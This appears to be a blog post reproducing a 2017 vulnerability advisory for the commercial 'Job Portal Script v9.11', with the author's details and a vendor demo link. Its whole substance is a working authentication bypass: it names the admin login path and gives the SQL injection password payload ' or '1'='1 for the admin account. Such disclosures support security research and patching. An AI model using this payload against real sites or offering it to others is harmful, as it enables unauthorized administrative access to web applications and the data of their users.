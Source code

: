 ```yaml
---
layout: post
title: Job Portal Script v9.11 Authentication bypass - 12.01.2017
---
```

Authentication bypass should give you access to the admin area.

<br># Vulnerability: Job Portal Script v9.11 Authentication bypass
<br># Date: 12.01.2017
<br># Software link: http://itechscripts.com/job-portal-script/
<br># Demo:  http://job-portal.itechscripts.com
<br># Price: 199$
<br># Category: webapps
<br># Exploit Author: Dawid Morawski
<br># Website: http://www.morawskiweb.pl
<br># Contact: dawid.morawski1990@gmail.com
<br>#######################################
<br>
<br>1. Description
<br>Authentication bypass should give you access to the admin area.
 
<br>Go to http://localhost/[PATH]/admin/index.php and set:
<br> 
<br>Username: admin
<br>Password: ' or '1'='1
